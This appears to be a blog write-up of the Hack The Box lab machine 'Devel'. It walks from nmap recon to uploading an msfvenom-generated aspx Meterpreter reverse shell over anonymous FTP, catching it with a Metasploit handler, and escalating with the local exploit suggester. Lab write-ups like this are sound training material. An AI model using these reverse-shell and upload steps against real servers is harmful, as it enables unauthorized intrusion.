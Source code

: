 ```yaml
---
layout: post
title: Devel writeup
subtitle: HTB MACHINE
tags: [HTB, Windows]
---
```

Hello guys it's Shin today I'm going to guide you on how to root Devel this is one of the easiest windows machine in Hack The Box. In this case I might be using ftp to upload a shell that is made from msf, and from there I will be scanning for any known exploits for the machine so let's get started.
# Recon 
## nmap
``` 
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
In this case we have 2 ports open which is `ftp` and `http` and I noticed that in ftp we can login as Anonymous.

# FTP-Port 21
There aren't that much to enumerate other than that your directory that you are in is the web directory.
# HTTP-Port 80
It's just the default page of IIS7:
![](/img/devel-writeup/screenshot1.png)

I tried doing directory bruteforcing using gobuster but it didn't give me much info that could help me root this machine.

# Foothold
I did some research about IIS7 and found out that IIS7 uses aspx so in this case I'm making a shell through msfvenom as aspx as a extension:
``` 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.5 lport=1337 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2790 bytes
Saved as: shell.aspx
```
Now I'm going to put it in the machine using ftp:
```
ftp> put shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2826 bytes sent in 0.000171 seconds (15.8 Mbytes/s)
```
Now time to execute our shell through a web browser as shown below in the image: 
![](/img/devel-writeup/screenshot2.png)

And run our msf handler:
```
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) set lhost tun0
msf5 exploit(multi/handler) set lport 1337
msf5 exploit(multi/handler) run
```
Then I run "Multi recon exploit suggester" It's a kind of msfconsole module that tries to gather information about the machine and suggest you exploits.

![](/img/devel-writeup/screensho4.png)
```
background 
use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 2
msf5 post(multi/recon/local_exploit_suggester) > run
```
![](/img/devel-writeup/screenshot3.png)

Yikes! That's a lot of exploits to try so I tried the first one  but it didn't work for me so I used the 2nd and it WORKED GREAT!
## BAM!

![](/img/devel-writeup/screenshot5.png)

Now it's time to grab root!

![](/img/devel-writeup/screenshot7.png)

<center>Wow Magic!</center>

<center><img src="/img/devel-writeup/joven.gif"/></center>




